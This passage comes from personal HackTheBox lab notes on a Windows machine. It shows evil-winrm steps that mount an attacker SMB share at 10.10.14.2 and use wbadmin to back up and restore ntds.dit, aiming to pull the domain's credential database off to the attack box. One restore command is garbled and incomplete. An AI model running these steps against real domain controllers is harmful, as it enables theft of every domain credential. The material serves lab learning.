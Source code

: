 Restart smbd

`sudo systemctl restart smbd`

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110203411.png)

From evil-winrm, mount to the share

```
net use x: \\10.10.14.2\SendMeYoData
```

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110203304.png)

Now trying the wbadmin command AGAIN

`echo y | wbadmin start backup -backuptarget:\\10.10.14.2\SendMeYoData -include:c: \windows\ntds\`

`WindowsImageBackup` directory is created on attack box. SUCCESS.

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110203655.png)
Use wbadmin to restore a ntds.dit out of our backup and creating a backup of the SYSTEM Registry hive

`echo Y wbadmin start recovery -version:????? -itemtype:file -items:C: windows\ntds\ntds.dit - recoverytarget:C: -notrestoreacl`

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110203958.png)

get versions by running:

`wbadmin get versions`
